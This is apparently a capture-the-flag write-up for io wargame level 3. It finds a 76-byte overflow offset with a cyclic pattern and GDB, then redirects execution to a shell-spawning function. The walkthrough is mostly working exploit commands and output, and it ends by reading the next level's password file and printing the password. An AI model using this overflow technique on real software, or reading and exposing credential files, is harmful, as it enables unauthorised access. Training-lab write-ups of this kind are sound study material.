 Similar situation than previous one but different C challenge.

So we already know that we want to execute the `good()` function which is going to give us a `/bin/sh`.

```bash
level3@io:~$ /levels/level03 1234
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
```

Ok, we have to buffer overflow this.

```bash
❯ ./pattern_create.rb -l 80
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac
```

From GDB:

```bash
gdb$ run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
Starting program: /levels/level03 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
...
Breakpoint 1, 0x080484c8 in main ()
gdb$ c
Continuing.
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
...
Breakpoint 1, 0x080484c8 in main ()
gdb$ c
Continuing.
This is exciting we're going to 0x63413563

Program received signal SIGSEGV, Segmentation fault.
--------------------------------------------------------------------------[regs]
  EAX: 0x63413563  EBX: 0x00000000  ECX: 0x7FFFFFD5  EDX: 0xB7FC3870  o d I t S z a P c
  ESI: 0x00000002  EDI: 0xB7FC2000  EBP: 0xBFFFFC28  ESP: 0xBFFFFBAC  EIP: 0x63413563
  CS: 0073  DS: 007B  ES: 007B  FS: 0000  GS: 0033  SS: 007BError while running hook_stop:
Cannot access memory at address 0x63413563
0x63413563 in ?? ()
```

Calculating the exact offset:

```bash
❯ ./pattern_offset.rb -l 80 -q 0x63413563
[*] Exact match at offset 76
```

And finally...

```bash
level3@io:~$ /levels/level03 $(python -c 'print "A"*76 + "\x74\x84\x04\x08"')
This is exciting we're going to 0x8048474
Win.
sh-4.3$ whoami
level4
sh-4.3$ cat /home/level4/.pass
7WhHa5HWMNRAYl9T
```
